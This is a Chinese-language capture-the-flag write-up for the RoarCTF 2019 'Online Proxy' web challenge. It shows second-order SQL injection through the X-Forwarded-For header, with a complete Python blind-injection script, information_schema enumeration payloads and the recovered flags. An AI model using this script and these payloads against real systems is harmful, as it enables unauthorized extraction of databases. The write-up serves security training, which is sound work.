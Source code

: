 # [RoarCTF 2019]Online Proxy
![](<./img/Pasted image 20230219102937.png>)

```
/
```

```
欢迎使用 Online Proxy。使用方法为 /?url=，例如 /?url=https://baidu.com/。  
为了保障您的使用体验，我们可能收集您的使用信息，这些信息只会被用于提升我们的服务，请您放心。
```

```
/?url=https://baidu.com/
```

![](<./img/Pasted image 20230219103145.png>)

![](<./img/Pasted image 20230219103535.png>)

响应包的结尾出现了奇怪的东西

显示的是内网地址，推测可以通过`X-Forwarded-For`头控制回显

```http
X-Forwarded-For: php_wa_saikou!
```

![](<./img/Pasted image 20230219103842.png>)

```http
X-Forwarded-For: aba
```

![](<./img/Pasted image 20230219105717.png>)

这里看wp说是存在二次注入，后台维护一对`currentIp`和`lastIp`，每次访问`ip`和最近一次不同就往后推，并且插入数据库

1. 令第一次`XFF`内容为`sql`注入文本，经过转义后作为`currentIp`
2. 令第二次`XFF`内容为不同的文本，使得未转义的`currentIp`作为`lastIp`拼接成查询
3. 令第三次`XFF`内容与第二次相同，则`lastIp`的值回显

```python
import requests
import time
from sys import stdout

url = 'http://node4.buuoj.cn:29528/'

payloads = ["0' or (ascii(substr((select group_concat(schema_name) from information_schema.schemata), {}, 1)) > {}) or '0", 'z', 'z']

success = lambda response: 'Last Ip: 1' in response.text

index = 0
while True:
    session = requests.sessions.Session()
    index += 1
    left = 0
    right = 127
    while left < right:
        time.sleep(0.3)
        mid = (left + right) // 2
        response = [
            session.get(
                url, headers={'X-Forwarded-For': payload.format(index, mid)})
            for payload in payloads
        ][-1]
        if success(response): # mid < nth_char
            left = mid + 1
        else:
            right = mid
    print(chr(left), end='')
    stdout.flush()
```

```
information_schema,ctftraining,mysql,performance_schema,test,ctf,F4l9_D4t4B45e
```

```
0' or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='F4l9_D4t4B45e'), {}, 1)) > {}) or '0
```

```
F4l9_t4b1e
```

```
0' or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='F4l9_t4b1e'), {}, 1)) > {}) or '0
```

```
F4l9_C01uMn
```

```
0' or (ascii(substr((select group_concat(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e), {}, 1)) > {}) or '0
```

```
flag{G1zj1n_W4nt5_4_91r1_Fr1end},flag{527fe9cc-7ec6-4a39-92dd-7650feb095ca}
```

#Web #HTTP #Header #xff #SQL注入 #二次注入 #布尔盲注 
